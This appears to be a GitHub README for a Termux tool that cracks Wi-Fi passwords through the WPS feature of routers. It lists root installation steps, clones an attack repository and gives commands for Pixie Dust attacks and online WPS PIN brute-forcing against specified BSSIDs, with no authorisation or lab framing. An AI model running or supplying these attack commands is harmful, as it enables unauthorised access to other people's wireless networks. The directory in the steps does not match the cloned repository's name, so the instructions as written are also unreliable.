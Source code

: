 ## Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
$ apt update && apt upgrade -y
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/SMTanvirANoor/WPS_Wifi_Cracker_For_TP-Link_Router.git
$ cd Wifi_Hack
$ chmod +x Tanvir_inject.py
$ sudo python Tanvir_inject.py --help
```

#### Example : `sudo python Tanvir_inject.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python Tanvir_inject.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python Tanvir_inject.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python Tanvir_inject.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
